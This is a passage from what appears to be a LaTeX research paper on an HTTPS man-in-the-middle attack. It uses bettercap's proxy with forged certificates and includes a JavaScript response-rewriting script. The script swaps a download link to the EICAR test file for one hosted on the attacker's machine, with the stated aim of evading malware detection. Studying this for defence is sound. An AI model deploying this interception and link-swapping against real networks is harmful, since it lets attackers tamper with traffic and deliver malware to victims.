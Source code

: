 As mentioned earlier in the paper, the certificate can be forged meticulously to look like a big corporation's one.

To host an  Proxy, bettercap makes it so once https packets ( port: 443) pass through the machine, they will be redirected to a self hosted proxy where the  page will be decrypted, analysed (in this case through JavaScript), optionally modified, re-encrypted using fake certificates and then being sent to the client transparently.

\newpage

\subsubsection{Developing the Script}

Through the \verb|https.proxy.script| option, as cited earlier, it is possible to develop a small JavaScript code that interacts with various proxy functions\cite{proxy-functions}:

\begin{lstlisting}[language=JavaScript]{}
 // called when the script is loaded
function onLoad() {

}

// called when the request is received by the proxy
// and before it is sent to the real server.
function onRequest(req, res) {

}

// called when the request is sent to the real server
// and a response is received
function onResponse(req, res) {

}

// called every time an unknown session command is typed,
// proxy modules can optionally handle custom commands this way:
function onCommand(cmd) {
    if( cmd == "test" ) {
        /*
         * Custom session command logic here.
         */

        // tell the session we handled this command
        return true
    }
}
\end{lstlisting}

\newpage

In this case in order to bypass the Malware Detection in , a small script was created that replaces the URL of the malware on the external server with one of the same malware but located on the attacker's machine.

\begin{lstlisting}[language=JavaScript]{}
function onResponse(req, res){
        var body = res.ReadBody();
        //Checks if there's a link to eicar.com
        if ( body.indexOf('<a href="./eicar.com">') != -1){
            res.Body = body.replace('<a href="./eicar.com">',
            '<a href="http://192.168.3.10/eicar2.com">');
        }
}
\end{lstlisting}


